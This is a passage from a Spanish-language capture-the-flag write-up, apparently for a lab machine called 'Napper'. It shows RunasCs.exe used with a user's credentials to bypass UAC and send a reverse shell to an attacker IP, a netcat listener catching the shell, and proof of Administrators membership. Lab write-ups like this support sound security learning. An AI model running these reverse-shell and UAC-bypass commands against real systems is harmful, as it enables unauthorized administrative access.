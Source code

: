 ¡Y conseguimos ejecutar comandos como `backup`!

Eso fue bastante complicado...
```console
C:\ProgramData>.\RunasCs.exe backup fBcdkirrMWHVckDMWJWNNtEjDYgzVVOImuDJWlPq "cmd /c whoami"
[*] Warning: The logon for user 'backup' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.
napper\backup
```

Ahora nos podemos mandar una revshell como este usuario.
**El propio `RunasCs.exe` nos está avisando de que usemos la flag --bypass-uac y --logon-type 8 para conseguir un token mas priviliago para el proceso**

```console
C:\ProgramData>.\RunasCs.exe backup qGTwMxgZpboSlSJiYGqfSdBXmgtaVRAGWIsPdfVb cmd.exe -r 10.10.14.125:443 --bypass-uac --logon-type 8
[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-42cb7$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 4196 created in background.
```

Si estamos en escucha con `netcat` por el puerto 443.
```console
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.125] from (UNKNOWN) [10.129.229.166] 57370
Microsoft Windows [Version 10.0.19045.3636]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
napper\backup
```

Podemos comprobar que pertenecemos al grupo de `Administrators`
```console
C:\Users\Administrator\Desktop>net user backup
net user backup
User name                    backup
Full Name                    backup
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/27/2024 8:43:22 AM
Password expires             Never
Password changeable          8/27/2024 8:43:22 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   8/27/2024 8:45:05 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       
Global Group memberships     *None                 
The command completed successfully.
```
